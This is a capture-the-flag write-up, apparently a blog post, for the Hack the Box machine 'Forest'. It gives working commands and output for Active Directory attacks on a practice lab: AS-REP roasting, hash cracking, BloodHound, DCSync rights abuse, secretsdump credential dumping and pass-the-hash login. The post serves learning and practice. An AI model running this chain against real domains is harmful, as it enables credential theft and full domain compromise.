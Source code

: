 ```yaml
---
layout: post
title: Hack the Box - Forest
author: Kolja
categories: [HtB]
tags: [ad]
---
```


Forest is an easy machine from HtB and part of the  Active Directory 101 path, which is why I took a look at it.

## Enumeration
I started with enumeration. A neat thing, that worked on this box was enumerating users with `rpcclient`:
```
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $> 
```
However this seems to be deprecated, so I am not sure if this will be useful in real-world engagements. After this, it is possible to get some hashes using AS-Rep-Roasting. I used impacket here:
```
└─$ impacket-GetNPUsers  -dc-ip 10.10.10.161 htb.local/ -usersfile  tmp.txt -format john -outputfile hashes -no-pass
```

We can then use the `rockyou`  list to crack the password of the `svc-alfresco` user: 
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:05 DONE (2022-05-20 15:48) 0.1865g/s 762268p/s 762268c/s 762268C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably

```

Here I then used the python ingestor for `BloodHound`, which was was also neat:
```
└─$ bloodhound-python -c All -u svc-alfresco@htb.local -p s3rvice -ns 10.10.10.161 -d htb.local -dc forest.htb.local 
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: forest.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: forest.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 01M 27S
```

One of the paths shows, that our user can use PowerShell Remoting to access a DC:

![First attack path](/assets/htb_forest_attack_path_one.png)

I had some trouble connecting with `evil-winrm` initially, which was fixed after resetting the lab:
```
evil-winrm  -u svc-alfresco -p s3rvice -i 10.10.10.161
```

I did not find a local privilege escalation vector on the box. But our user has other attack paths. One of them leads to the domain:

![Second attack path](/assets/htb_forest_attack_path_two.png)

Here we first add ourselves to the `Exchange Windows Permissions`-Group and then give ourselves permission to use DCSync. I had some trouble getting the abuse info for the second step to work, but adding the `-PrinvipalIdentity`-Argument fixed this for me (likely because we need a new login session, after adding us to the group). We also needed to do the steps in a limited time frame, as there is some cleanup logic (probably to not ruin the box for people attacking it afterwards). I solved this by copy-pasting them as one line: 
```
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco' -Credential $Cred ; $SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force ; $Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword); Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'DC=htb,DC=local' -Rights DCSync
```
We can then use `impacket` to get the NTLM hash of the `Administrator` account:
```
impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
Afterward, we can log in using `evil-winrm` again:
```
└─$ evil-winrm -i 10.10.10.161 -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"

```
